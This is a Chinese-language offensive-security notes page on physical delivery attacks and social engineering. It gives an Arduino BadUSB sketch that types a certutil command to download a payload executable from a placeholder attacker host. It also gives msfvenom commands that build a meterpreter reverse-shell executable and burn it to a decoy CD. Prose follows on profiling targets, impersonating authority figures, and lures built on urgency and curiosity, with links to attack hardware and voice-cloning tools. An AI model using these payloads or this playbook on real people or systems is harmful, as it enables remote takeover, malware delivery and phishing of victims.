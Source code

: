 ### BadUSB

[Arduino IDE](物理投递/arduino-1.8.18-windows.zip)

官方下载地址：[https://www.arduino.cc/en/software/OldSoftwareReleases](https://www.arduino.cc/en/software/OldSoftwareReleases)

```bash
#include "Keyboard.h"

 void setup() {
   Keyboard.begin();
   delay(1000); //等待设备初始化

   Keyboard.press(KEY_LEFT_GUI); //按下Win键
   Keyboard.press('r'); //按下r键
   Keyboard.releaseAll();
   delay(1000);

   Keyboard.print("cmd.exe"); //输入cmd.exe
   Keyboard.press(KEY_ENTER); //按下回车键
    Keyboard.releaseAll();
    delay(1000);

   Keyboard.print("certutil -urlcache -split -f http://IP地址/payload/hi.exe hi.exe");
    Keyboard.press(KEY_ENTER); //按下回车键
   Keyboard.releaseAll();
 }

void loop() {
  //循环
}
```

[USBArmyKnife](https://github.com/i-am-shodan/USBArmyKnife)

[USBNinja](https://lab401.com/products/usbninja)

[badUSB-Targeting-Android](https://github.com/caioau/badUSB-Targeting-Android)

[USB Rubber Ducky](https://shop.hak5.org/collections/hotplug-attack-tools/products/usb-rubber-ducky)

### 其它设备

1. CD光盘

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f exe > malicious.exe
mkisofs -o malicious.iso -J -R malicious.exe legitimate.txt
dd if=malicious.iso of=/dev/sr0 bs=4M status=progress
```

2. 外部硬盘

```bash
mkfs.vfat /dev/sdc1
dd if=malicious.img of=/dev/sdc bs=4M status=progress
```

### 社会工程学

在社会工程学攻击中，信息收集同样是至关重要的第一步。攻击者会通过如下所示的方法尽可能多地搜集关于目标用户的信息，以便更好地制定攻击策略。

+	分析目标用户的职业：了解目标用户的职位、部门、工作职责等，以便设计与其工作相关的诱饵。例如，如果目标用户是财务人员，攻击者可能会伪造一份发票或报销单。
+	分析目标用户的兴趣、爱好、社交关系：了解目标用户的个人喜好、兴趣爱好、以及常与哪些人联系，以便在攻击中利用这些信息建立信任感。 例如，如果目标用户喜欢运动，攻击者可能会发送一个关于体育赛事的信息。
+	分析目标用户的工作习惯：了解目标用户的工作时间、常用的软件、以及日常工作流程，以便选择合适的攻击时机和方式。例如，如果目标用户通常在早上处理邮件，攻击者可能会选择在早上发送钓鱼邮件。
+	了解目标用户的办公环境、网络环境、安全措施：了解目标用户使用的操作系统、浏览器、以及安全软件，以便选择合适的攻击技术。 例如，如果目标用户使用了特定的防病毒软件，攻击者可能会选择使用能够绕过该软件检测的恶意代码。
+	从公开渠道收集信息：从社交媒体（如 LinkedIn、Facebook、Twitter）、公司网站、新闻报道、博客、论坛等公开渠道，收集目标用户的个人信息，例如姓名、职位、联系方式、兴趣爱好等。

为了获得目标用户的信任，攻击者通常会使用如下所示的方法伪装成不同的身份，使其看起来像是来自可信的来源。

+	权威伪装：攻击者会伪装成上级领导、IT管理员、安全专家或政府官员等权威人士，利用用户对权威的服从心理。例如，攻击者可能会伪装成IT管理员，要求用户更新密码。
+	同事伪装：攻击者会伪装成同事、朋友、或合作伙伴，利用用户对熟悉的人的信任。例如，攻击者可能会伪装成同事，询问用户的用户名和密码。
+	服务人员伪装：攻击者会伪装成快递员、技术支持人员、或维修人员等服务人员，利用用户的同情心或礼貌。例如，攻击者可能会伪装成快递员，要求用户签收一个包含恶意文件的包裹。

为了诱使用户采取特定行动，攻击者还会使用如下所示的各种诱饵方法，吸引用户的注意力，并利用其心理弱点。

+	使用紧急性：攻击者会使用具有紧急感的语言，例如“紧急通知”、“重要文件”、“系统崩溃”，利用用户的焦虑心理。例如，攻击者可能会发送一封标题为“紧急：账户异常”的钓鱼邮件。
+	使用好奇心：攻击者会使用具有吸引力的标题或内容，例如“免费赠品”、“内部资料”、“秘密信息”，利用用户的好奇心。例如，攻击者可能会发送一封声称包含“内部员工名单”的邮件。
+	使用信任感：攻击者会使用可信的来源或内容，例如伪造的邮件、邀请函、政府通知等，利用用户的信任感。例如，攻击者可能会伪造一封来自银行的邮件，要求用户验证账户信息。
+	使用稀缺性：攻击者会利用稀缺心理，例如声称只有限量的优惠，从而诱骗用户点击恶意链接。例如，攻击者可能会发送一封“限量优惠券”的邮件。

在完成上述准备工作后，攻击者便会利用如下所示的各种手段实施攻击，诱骗用户采取特定的行动。

+	诱骗用户点击恶意链接：攻击者会通过伪装的电子邮件、短信、或社交媒体消息，诱骗用户点击恶意链接，将用户重定向到钓鱼网站或恶意软件下载页面。例如，攻击者可能会发送一封包含恶意链接的邮件，声称可以领取免费礼物。
+	诱骗用户打开恶意附件：攻击者会通过伪装的电子邮件或消息，诱骗用户打开恶意附件，例如包含恶意代码的Word文档或PDF文件。例如，攻击者可能会发送一封伪装成合同的邮件，并附加包含恶意宏的Word文档。
+	诱骗用户泄露敏感信息：攻击者会通过伪装的电话、电子邮件、或短信，诱骗用户泄露敏感信息，例如用户名、密码、信用卡信息等。例如，攻击者可能会伪装成银行客服，打电话给用户要求其提供银行卡信息。
+	诱骗用户安装恶意软件：攻击者会使用虚假的软件安装包，或者利用软件的漏洞，诱骗用户安装恶意软件。例如，攻击者可能会发送一个伪装成系统更新的安装包。
+	诱骗用户使用恶意硬件: 攻击者会使用一些伪装成正常设备的恶意硬件， 例如伪装成U盘，鼠标键盘等。
+	物理投递：攻击者会将恶意硬件或者存储介质伪装成礼品或文档等，投递到目标用户的环境中。

在成功诱骗用户采取行动后，攻击者会利用获取到的信息或权限，实施进一步的攻击（例如，获取用户凭据、控制目标组织的系统、取敏感信息、传播恶意软件、进行DDoS攻击等）。

此外，如果结合人类心理弱点的具体社会工程学攻击，那么可以大致分为以下心理弱点。
+	好奇心、贪婪：诱饵攻击，攻击者在目标周围投放带有恶意软件的USB驱动器或其他设备，诱导目标捡起并插入其计算机。
+	信任、权威：借口攻击，攻击者伪装成可信赖的身份，如公司IT人员，向目标索取敏感信息或执行特定操作。
+	信任、恐惧：攻击者通过伪装成目标熟悉的联系人，向目标发送包含恶意链接或附件的电子邮件，诱导目标点击或下载。
+	礼貌、信任：尾随攻击，攻击者通过伪装成合法人员，尾随目标进入受限区域，获取物理访问权限。

[flipperzero](https://flipperzero.one/)

[Real Time Voice Cloning](https://github.com/CorentinJ/Real-Time-Voice-Cloning)

[dot](https://github.com/sensity-ai/dot)
